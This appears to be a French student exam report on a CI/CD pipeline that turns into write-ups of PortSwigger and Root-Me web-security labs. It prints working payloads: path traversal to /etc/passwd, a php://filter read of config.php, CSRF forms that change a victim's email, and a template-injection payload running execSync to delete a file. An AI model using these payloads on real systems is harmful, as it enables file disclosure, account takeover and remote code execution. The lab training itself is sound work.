# Rendu - Exam CI/CD Pipeline Python

## Membres du groupe

- Nom 1: DIAWARA Adama
- Nom 2: DJECHE FOTSO Christ Arole

## 1) URL du repository GitHub public

- URL: https://github.com/Adamsad97/WebSecurity/tree/develop/calculator

## 2) Screenshot de la pipeline CI en succes

- Capture: 

## 3) Screenshot de la pipeline CD en succes

- Capture: 

## 4) Screenshot du repository Docker Hub montrant l'image

- Capture: 

## 5) Fichiers crees

### .github/workflows/ci.yml

- <docker_username>/calculator:latest

## Challenges

- Challenge 1 : File path traversal, validation of file extension with null byte bypass

- URL : https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass

- Payload : ../../../etc/passwd%00.png
  
  

- Découverte de la vulnérabilité

1. Click sur un produit
2. Récupérateur de la réquête contenant l'image
3. Modification du nom d'image par ../../../etc/passwd%00.png

######################################################################

- Challenge 2 : PHP - Filters
- URL : https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-Filters

- Les étapes de découvertes de la vulnérabilité

1. Je me suis créé un compte user
2. J'ai démarré le challenge
3. J'ai récupéré les caractères renvoyés
4. J'ai décodeé ces caractères sur https://www.base64decode.org/ afin de récupérer le username Admin et son mot de passe
5. Je me suis connecté en tant d'admin
6. Puis je suis venu mettre le mot de passe admin et cliqué sur "Envoyer"

- Le payload utilisé : http://challenge01.root-me.org/web-serveur/ch12/?inc=php://filter/convert.base64-encode/resource=config.php

* un screenshot
  
  

- Les recommandations pour sécuriser cette vulnérabilité et une référence (un lien) d’où vous avez trouvé
  ces recommandations

#########################################################################

- Challenge 3 : CSRF - contournement de jeton
- URL : https://www.root-me.org/fr/Challenges/Web-Client/CSRF-contournement-de-jeton

- Les étapes de découvertes de la vulnérabilité

1. Connexion avec un compte
2. Clique sur "Profil"
3. Envoi de message dans contact qui généré un flag
4. Récupération du flag Byp4ss_CSRF_T0k3n-w1th-XSS
5. Puis, envoi du flag généré

- Le payload utilisé :

- un screenshot
  
  

* Les recommandations pour sécuriser cette vulnérabilité et une référence (un lien) d’où vous avez trouvé
  ces recommandations

################################################################################

- Challenge 4 : CSRF where token is not tied to user session

- URL : https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session

- Payload :
    <form action="https://0a4a00270322a18e8020ad2300810075.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="hacked456@gmail.com">
        <input type="hidden" name="csrf" value="8A5EmMNX1xsdIIX0MKNkvc9oxg8C3rUB">
    </form>

    

  
  

## Étapes de découverte de la vulnérabilité

1. Connexion avec le compte utilisateur `wiener:peter`.
2. Accès à la fonctionnalité **Update email**.
3. Interception de la requête HTTP avec Burp Suite.
4. Observation d’un paramètre `csrf` présent dans la requête POST.
5. Test en rejouant la requête avec un token modifié provenant d’un autre compte (`carlos`).
6. la requête est acceptée même avec un token issu d’un autre utilisateur.
7. Conclusion : le token CSRF n’est pas lié à la session utilisateur.

## Recommandations de sécurité

    Associer le token CSRF à la session utilisateur
    Vérifier que le token est généré par session et non globalement valide
    Utiliser des mécanismes supplémentaires comme :
    SameSite cookies
    Double Submit Cookie pattern
    Invalider les tokens après usage

#################################################################################

- Challenge 5 : CSRF where Referer validation depends on header being present
- URL : https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present

- Les étapes de découvertes de la vulnérabilité

1. J'ai envoyé une réquête en faisant une mise à jour d'adresse mail
2. J'ai récupéré la réquête dans Burp
3. j'ai accedé la page où envoyer le corps de la réquête
4. Je l'ai collé dans body
5. J'ai cliqué sur "Store"
6. puis, sur "Delivere exploit to victim"

- Le payload utilisé + un screenshot
<html>
  <head>
    <meta name="referrer" content="no-referrer">
  </head>
  <body>
    <form action="https://0a1d000704a0a72480f4030000680055.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test1@test.com">
    </form>
    
  </body>
</html>





- Les recommandations pour sécuriser cette vulnérabilité et une référence (un lien) d’où vous avez trouvé
  ces recommandations

######################################################################################

- Callenge 10 : Server-side template injection in an unknown language with a documented exploit
- l'URL: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit
- Les étapes de découvertes de la vulnérabilité

1. Paramètre vulnérable identifié: /?message=Unfortunately+this+product+is+out+of+stock
2. Test SSTI: /?message={{7*7}}
3. Construction du payload RCE :Accès au constructeur JavaScript via la chaîne de prototypes pour exécuter execSync.

- Le payload utilisé + un screenshot
  GET /?message=GET
  /?message=wrtz{{#with%20"s"%20as%20|string|}}{{#with%20"e"}}
  {{#with%20split%20as%20|conslist|}}{{this.pop}}
  {{this.push%20(lookup%20string.sub%20"constructor")}}{{this.pop}}
  {{#with%20string.split%20as%20|codelist|}}{{this.pop}}
  {{this.push%20"return%20require('child_process').execSync
  ('rm%20/home/carlos/morale.txt');"}}{{this.pop}}
  {{#each%20conslist}}{{#with%20(string.sub.apply%200%20codelist)}}
  {{this}}{{/with}}{{/each}}{{/with}}{{/with}}{{/with}}{{/with}}

  
  

- Les recommandations pour sécuriser cette vulnérabilité
  Ne jamais injecter des entrées utilisateur dans un template

- Référence : https://portswigger.net/web-security/server-side-template-injection#how-to-prevent-server-side-template-injection-vulnerabilities

############################################################################################

#########################################################################################
